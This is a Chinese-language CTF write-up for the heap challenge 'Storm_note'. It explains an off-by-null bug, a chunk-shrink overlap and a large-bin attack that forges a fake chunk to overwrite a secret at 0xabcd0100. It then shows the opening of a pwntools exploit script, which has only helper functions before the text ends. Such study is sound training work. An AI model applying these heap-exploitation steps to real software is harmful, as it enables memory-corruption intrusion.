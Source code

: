 ![5cab465c51f58](https://i.loli.net/2019/04/08/5cab465c51f58.png)

![5cab46f113bcf](https://i.loli.net/2019/04/08/5cab46f113bcf.png)

后门函数，输入需要与0xabcd0100中数据相同。

![5cab47487b646](https://i.loli.net/2019/04/08/5cab47487b646.png)

add:

可以分配1到0xffff任意大小。

![5cab4786a98c2](https://i.loli.net/2019/04/08/5cab4786a98c2.png)

edit:

off-by-null

![5cab47c8f2472](https://i.loli.net/2019/04/08/5cab47c8f2472.png)

del:

![5cab47d803641](https://i.loli.net/2019/04/08/5cab47d803641.png)

思路：

存在off-by-null，用chunk shrink实现overlapping。为后面修改目标chunk的fd bk等指针做铺垫。

控制出一块unsorted bin(large bin范围) ， 一块large bin。

在malloc时如果在unsorted bin中找不到合适大小的，便将unsorted bin中的large chunk插入到large bin，通过精心构造的fd_nextsize,bk_nextsize等指针，实现mmap区域任意写，同时将fake_chunk加入到unsorted bin中。在目标区域0xabcd0100的上方，利用字节错位写出一个\x56大小的size位，作为fake_chunk的size。  



在它找下一个unsorted bin时，找到fake_chunk，发现大小也符合，便会返回来。向其中写入\x00将随机数覆盖即可。  



exploit:  

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-

from pwn import *

io = process('./Storm_note')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']

def debug():
    gdb.attach(io)
    io.interactive()
def alloc(size):
    io.sendlineafter(': ','1')
    io.sendlineafter('\n',str(size))
def editnote(idx,content):
    io.sendlineafter(': ','2')
    io.sendlineafter('\n',str(idx))
    io.sendafter('\n',content)
def delnote(idx):
    io.sendlineafter(': ','3')
    io.sendlineafter('\n',str(idx))
def fopen():
    io.sendlineafter(': ','666')


```